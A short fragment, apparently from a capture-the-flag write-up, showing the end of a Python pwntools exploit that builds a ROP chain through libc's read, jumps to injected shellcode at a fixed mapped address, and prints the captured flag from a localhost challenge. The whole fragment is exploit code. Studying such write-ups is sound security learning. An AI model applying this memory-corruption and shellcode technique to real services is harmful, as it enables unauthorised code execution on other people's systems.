```python
    rop += p64(0x1000) * 4
    rop += p64(libc.sym["read"])
    # jump to mmaped shellcode
    rop += p64(0x31337000)
    send_rop(rop)

    sleep(1)

    shellcode_asm = asm(shellcode)
    io.sendafter(b"Game over!\n", shellcode_asm)

    flag = io.recvuntil(b"}")
    print(flag.decode())

    return flag.decode()


if __name__ == "__main__":
    exploit("localhost", 1337)
```

![Exploit](writeup/exploit.png)
